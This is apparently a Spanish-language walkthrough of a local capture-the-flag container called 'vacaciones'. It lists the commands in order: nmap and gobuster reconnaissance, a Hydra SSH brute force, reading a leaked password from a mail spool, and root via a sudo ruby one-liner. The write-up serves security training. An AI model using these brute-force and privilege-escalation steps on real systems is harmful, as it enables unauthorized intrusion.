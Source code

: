 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh vacaciones.tar
```

![Pasted image 20250129185403](https://github.com/user-attachments/assets/8b9bca24-1701-4956-91bd-297db9054bc6)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250129185423](https://github.com/user-attachments/assets/849e4049-3b9a-4f82-88d7-38ea2af76aed)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250129185545](https://github.com/user-attachments/assets/48766e6e-d8a2-4afd-96b9-c3a629c1f8e8)

Nos metemos en la web:

![Pasted image 20250129185715](https://github.com/user-attachments/assets/c8fa990f-ef5a-4cb1-b9e8-5ad8efad6b11)

```Bash
cntrl + u
```

![Pasted image 20250129185818](https://github.com/user-attachments/assets/544fc2c4-3c48-4a87-a7e3-151fce991f49)

Nos da un usuario (Camilo).

Fuerza Bruta con **Hydra**:

```Bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250129190053](https://github.com/user-attachments/assets/9f0b1cc8-9d80-4ac4-ab36-ff021557ee95)

Nos conectamos con **SSH**:

```Bash
ssh camilo@172.17.0.2
```

![Pasted image 20250129190547](https://github.com/user-attachments/assets/71f52863-5ef2-4f69-bd49-47e2e5d142f2)

```Bash
/bin/bash -i
```

![Pasted image 20250129190824](https://github.com/user-attachments/assets/59e558c3-caf4-4ebf-b604-6fb64cb66d67)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250129190912](https://github.com/user-attachments/assets/9f58b198-9aee-4ddb-981f-80635b5834e4)

```Bash
find / -perm /4000 2>/dev/null
```

![Pasted image 20250129191753](https://github.com/user-attachments/assets/7db941a9-5ee5-44e8-b2ee-54532d0f92ed)

No podemos.

Nos vamos a la dirección donde se guardan los mail:

```Bash
cd /var/mail/camilo
```

![Pasted image 20250129192332](https://github.com/user-attachments/assets/fd1c209e-88cf-4d3c-894c-8dc4e58e9536)

(A veces se guardan aquí también):

```Bash
cd /var/spool/mail/camilo
```

Listamos:

```Bash
ls
```

![Pasted image 20250129192510](https://github.com/user-attachments/assets/7e579e22-d172-448f-8334-28e5e242616d)

```Bash
cat correo.txt
```

![Pasted image 20250129192543](https://github.com/user-attachments/assets/53e2a526-789a-44d6-8b17-f9910191f62a)

juan: 2k84dicb.

Nos conectamos con **SSH**:

```Bash
ssh juan@172.17.0.2
```

![Pasted image 20250129192647](https://github.com/user-attachments/assets/6ce006c2-b9f7-44ca-a53b-5922ba04be3a)

```Bash
/bin/bash -i
```

![Pasted image 20250129192815](https://github.com/user-attachments/assets/de97ab71-2249-4ddd-a161-5449702f5d35)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250129192913](https://github.com/user-attachments/assets/5f66a973-8cf6-4378-86c2-763c7d27befb)

```Bash
sudo ruby -e 'exec "/bin/bash"'
```

![Pasted image 20250129193159](https://github.com/user-attachments/assets/76ae791c-0574-4b02-b2b7-ce8e9ce9ff99)

```Bash
whoami
```

![Pasted image 20250129193213](https://github.com/user-attachments/assets/32dcc17b-d657-48cc-a70a-f2672a847a90)
